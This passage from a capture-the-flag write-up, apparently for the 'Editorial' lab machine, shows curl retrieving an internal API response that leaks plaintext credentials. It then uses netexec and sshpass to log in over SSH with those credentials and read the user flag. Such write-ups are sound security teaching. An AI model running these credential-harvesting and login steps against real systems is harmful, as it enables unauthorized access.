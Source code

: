 It’s a list of API endpoints.

#### Authors

The endpoint with the most interesting information is `/api/latest/metadata/messages/authors`. All of the `messages` endpoints return template messages. I’ll fetch it in repeater:

![image-20240619141831846](/img/image-20240619141831846.png)

And then get it with `curl`:

```

oxdf@hacky$ curl -s 'http://editorial.htb/static/uploads/63ef32c6-91b8-4ac1-9216-000fd0a3f1a1' | jq .
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}

```

It has a username and password.

### SSH

`netexec` is a quick way to check SSH access. It works:

```

oxdf@hacky$ netexec ssh editorial.htb -u dev -p 'dev080217_devAPI!@'
SSH         10.10.11.20     22     editorial.htb    [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.7
SSH         10.10.11.20     22     editorial.htb    [+] dev:dev080217_devAPI!@  (non root) Linux - Shell access!

```

I’ll connect:

```

oxdf@hacky$ sshpass -p 'dev080217_devAPI!@' ssh dev@editorial.htb
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)
...[snip]...
dev@editorial:~$

```

And grab `user.txt`:

```

dev@editorial:~$ cat user.txt
4cb8456e************************

```
